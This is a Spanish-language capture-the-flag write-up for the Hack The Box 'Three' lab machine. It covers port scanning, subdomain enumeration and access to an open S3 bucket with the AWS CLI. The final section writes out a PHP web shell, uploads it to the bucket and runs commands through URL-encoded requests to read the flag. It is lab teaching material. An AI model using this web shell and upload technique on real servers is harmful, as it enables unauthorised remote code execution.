 ```yaml
---
title: Three
date: 2025-04-5 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, responder]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

## Three
De nuevo una serie de tareas para ir resolviendo la máquina. Esta vez parece algo relacionado con s3 de amazon.

Task 1

How many TCP ports are open?
```shell
└─$ nmap -p- -vv -T4 10.129.229.84                    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 17:20 EDT
Initiating Ping Scan at 17:20
Scanning 10.129.229.84 [4 ports]
Completed Ping Scan at 17:20, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 13.00s elapsed
Initiating SYN Stealth Scan at 17:20
Scanning 10.129.229.84 [65535 ports]
Discovered open port 80/tcp on 10.129.229.84
Discovered open port 22/tcp on 10.129.229.84
```
>2

Task 2

What is the domain of the email address provided in the "Contact" section of the website?

>thetoppers.htb

Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
> /etc/hosts

Task 4

Which sub-domain is discovered during further enumeration?

Antes de continuar con esta tarea tuve que instalar seclist en la máquina Kali25 que estoy utilizando para hacer los retos de HTB. 
Luego podremos valernos de gobuster para buscar 
```
apt install seclist
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://thetoppers.htb
```

Sin embargo no tuve resultados. Encontré una explicación en [Reddit](https://www.reddit.com/r/hackthebox/comments/11bsuxt/can_find_the_s3_subdomain_that_i_am_supposed_to/?tl=es-es&rdt=58488) Algo malo pasa con esta máquina? Es posible porque me dan pistas cuando hago spawn... 

Please wait for a few minutes until all machine related services are up and running.
Expect to see {"status":"running"} when visiting s3.thetoppers.htb

> s3.thetoppers.htb

Task 5

Which service is running on the discovered sub-domain?

Como es lógico sería inútil usar nmap contra un dominio en amazon, pero es posible que una mala configuración de la máquina nos permita el acceso
volvemos a configurar /etc/hostname, esta vez con el subdomino por delante. 

```shell
10.129.234.148 s3.thetoppers.htb
```
Ahora visitamos la web http://s3.thetoppers.htb/ parece que la instanancia muestra un status 
```
{"status": "running"}
```
> amazon s3

Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?
> awscli

Task 7

Which command is used to set up the AWS CLI installation?
``` shell
sudo apt install awscli
```
> aws configure

Task 8 

What is the command used by the above utility to list all of the S3 buckets?

Aqui tenemos que configurar el cliente de aws antes de poner usarlo contra la instancia de s3
``` shell
└─$ aws configure                               
AWS Access Key ID [None]: hacked
AWS Secret Access Key [None]: hacked
Default region name [None]: hacked
Default output format [None]: hacked
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2025-04-08 16:27:00          0 .htaccess
2025-04-08 16:27:00      11952 index.php

```
> aws s3 ls 

Task 9

This server is configured to run files written in what web scripting language?
> php

Submit Flag

Vamos a codificar una pequeña shell en PHP que al pasarle parámetros los ejecute como instrucciones del lado del servidor

``` php
<?php
    system($_GET["cmd"]);
?>
```
Ahora lo subimos a la instancia de s3 
``` shell
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp hello.php s3://thetoppers.htb  
upload: ./hello.php to s3://thetoppers.htb/hello.php              
```
Ahora desde el navegador deberíamos poder ejecutar comandos en la instancia para encodear los comandos en un formato que no rechaze el servidor te puedes valer de URL encoders que hay online de forma que **ls /var/www** se convierte en **ls%20%2Fvar%2Fwww**                                                     

```
http://thetoppers.htb/hello.php?cmd=ls%20%2Fvar%2Fwww

flag.txt html 

http://thetoppers.htb/hello.php?cmd=cat%20%2Fvar%2Fwww%2Fflag.txt%0A

```

Submit root flag [achivement](https://www.hackthebox.com/achievement/machine/2336390/489)

